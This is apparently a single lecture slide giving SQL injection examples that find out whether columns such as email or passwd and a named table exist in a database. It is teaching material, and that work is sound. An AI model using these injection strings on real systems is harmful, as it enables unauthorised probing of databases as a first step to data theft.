

# A Few Examples
Schema field mapping
SELECT fieldlist FROM table WHERE field = 'x' AND email IS NULL; --';
Gives whether email field exists in the table!
Similarly whether userid, passwd, name fields are in table.

Finding the table name
x' AND 1=(SELECT COUNT(*) FROM tabname); --
Gives whether tabname exists in database.
24